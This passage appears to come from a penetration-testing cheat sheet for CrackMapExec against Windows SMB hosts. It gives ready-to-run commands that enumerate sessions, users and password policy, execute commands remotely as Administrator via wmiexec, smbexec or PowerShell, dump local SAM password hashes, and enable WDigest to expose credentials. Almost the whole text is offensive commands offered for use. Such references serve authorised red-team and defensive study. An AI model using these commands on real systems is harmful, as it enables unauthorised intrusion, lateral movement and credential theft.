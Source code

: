 #### Active Sessions
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --sessions
```

#### Logged-in Users
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --lusers
```

#### Password Policy
```bash
crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --pass-pol
```

## Command Execution

Execute commands on targets (requires admin privileges).

Execution Methods: CME uses wmiexec (WMI), atexec (scheduled task), or smbexec (service creation) in that order.

### Execute via cmd.exe
```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x 'whoami'
```

### Force smbexec Method
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec
```

### Execute via PowerShell
```bash
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X 'whoami'
```

## Credential Dumping

Extract credentials from targets.

### Dump Local SAM Hashes
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam
```

### Enable/Disable WDigest for Credential Dumping
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest enable
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest disable
```
